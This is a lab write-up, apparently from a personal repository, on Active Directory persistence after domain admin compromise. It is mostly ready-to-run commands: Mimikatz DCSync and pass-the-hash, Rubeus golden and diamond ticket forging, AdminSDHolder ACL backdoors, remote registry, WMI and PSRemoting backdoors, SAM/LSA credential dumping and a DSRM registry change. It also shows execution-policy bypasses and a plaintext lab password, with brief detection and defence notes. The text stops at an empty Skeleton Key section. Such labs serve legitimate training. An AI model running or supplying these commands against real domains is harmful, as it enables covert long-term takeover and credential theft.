# Some Persistence Techniques
After gaining domain admin privileges, attackers generaly focus on maintaining their
level of access over time. They employ various persistence techniques that allow them
to regain domain admin privileges whenever they want, potentially for months or even
years. In this lab i will explore:
- Golden Ticket
- Diamond Ticket
- AdminSDHolder
- Remote Services/Protocoles SD
- DSRM
- Skeleton Key


## 1-Golden Ticket
### dcsync
With the da credentials with start a new process and perform a dcsync attack to extrat the credentials of the krbtgt account (the account of the Key Distribution Center Sservice).<br>
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:itmanager /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
<br>

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
<br>

### DA tgt forging using low user
We use  the krbtgt account aes key to forge TGT for any user. Since the krbtgt accound passord is not often change this techique can allow the attacker to maintain his access for long periods...<br>

```powershell
C:\AD\Tools\Rubeus.exe golden /aes256:<> /sid:<> /ldap /user:Administrator /printcmd
```
<br>
<br>
<br>

```powershell
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:<> 
/aes256:<> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
<br>
<br>

## 2-Diamond Ticket
One thing to always remember is that a Golden Ticket is a forged ticket, meaning there is no interaction with the KDC (Key Distribution Center). This can be detected by the Blue Team by monitoring for an AS-REP without a corresponding AS-REQ.<br>
In contrast, the Diamond Ticket is more OPSEC-safe. In this attack, we first request a legitimate TGT (Ticket Granting Ticket) from the KDC. Then, using the krbtgt hash, we decode the TGT, modify it, and re-encode it before using it.


### using the curent user security context (tgtdeleg)
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:corp.local /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
<br>
<br>

### using user/password
```powershell
C:\AD\Tools\Rubeus.exe -args %Pwn% /krbkey:<> /user:stdent163 /password:UE6pj7HvkSgrGR92 /enctype:aes /ticketuser:administrator /domain:corp.local  /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /pt
```
<br>
<br>

## 3-AdminSDHolder
[Read More](https://www.thehacker.recipes/ad/persistence/adminsdholder)<br>
AdminSDHolder is a container in AD that holds the Security Descriptor applied to members of protected groups. The ACL can be viewed on the AdminSDHolder object itself. The Progation mechanisme that overwrite SD of protected groups and users with the SD of the  AdminSDHolder container runs every hour by default but can run at a different frequency by adding the value AdminSDProtectFrequency to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters`. This is likely to be noticed by the blue team, as there is a high chance that the AdminSDHolder SD is being monitored.

<br>
```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'helpdesk' -target-dn 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' 'corp/administrator':'Password321!'
```

```powershell
Import-Module C:\AD\Tools\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' -PrincipalIdentity helpdesk -Rights All -Verbose
```
<br>
<br>

```powershell
Import-Module C:\AD\Tools\Invoke-SDpropagator.ps1
Invoke-SDPropagator -ShowProgress -Verbose -timeoutMinutes 1
```
<br>
With this, the helpdesk user has Full Control over all protected groups and users. To revert, simply remove the helpdesk ACE from AdminSDHolder and force the propagation again.

## 4-Remote Services/Protocoles SD

### Remote Registry
```powershell
Import-Module C:\AD\Tools\Race.ps1
Add-RemoteRegBackdoor -ComputerName WIN-4E30GDH8UQ6.corp.local -Trustee helpdesk -Verbose

Get-RemoteMachineAccountHash -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose
```
<br>
<br>
<br>
### Remote WMI
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemoteWMI -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose 

Get-WmiObject -Class win32_operatingsystem -ComputerName WIN-4E30GDH8UQ6.corp.local
```
<br>
<br>

### Powershell Remoting
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemotePSRemoting -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
<br>
<br>

## 5-DSRM
DSRM sands for Directory Services Restore Mode and on every DC the local admin "Administrator" is the DSRM account. His password i set when promoting the DC[Read More Here](https://www.hackingarticles.in/domain-persistence-dsrm/)<br>

<br>

### Creds Extraction
<br>
```
mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```
<br>
```
mimikatz.exe "lsadump::lsa /path" "exit"
```
<br>

### Registry Modification
```powershell
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```
<br>

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```
<br>

### Usage
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
### Defence Strategies
- Check & monitor the DsrmAdminLogonBehaviour value is not set to 2 inside the Registry key.
- DSRM passwords should be changed regularly at least once a month.


## 6-Skeleton Key
<br>
[Read More](https://www.thehacker.recipes/ad/persistence/skeleton-key/)<br>
```powershell
